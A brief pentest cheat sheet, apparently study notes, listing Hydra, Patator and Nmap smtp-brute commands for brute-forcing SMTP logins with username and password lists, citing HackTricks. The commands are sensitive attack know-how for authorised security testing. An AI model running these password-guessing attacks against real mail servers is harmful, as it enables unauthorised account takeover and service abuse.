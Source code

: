 # SMTP

## 01 - Hydra

`$ hydra -U smtp`

`$ hydra -V -l <username> -P passwords.lst <IP> smtp`

`$ hydra -S -v -V -l <username> -P passwords.lst -s 587 <IP>`


## 02 - Patator

`$ patator smtp_login`

## 03 - Nmap

`$ nmap -p 25 --script smtp-brute --script-args smtp-brute.auth=<LOGIN | PLAIN | CRAM-MD5 | DIGEST-MD5 | NTLM>`

`$ nmap -p 25 --script smtp-brute --script-args smtp-brute.auth=LOGIN,userdb=users.lst,passdb=passwords.lst <IP>`

---
## References

- [Hacktricks: Brute Force SMTP](https://book.hacktricks.xyz/brute-force#smtp)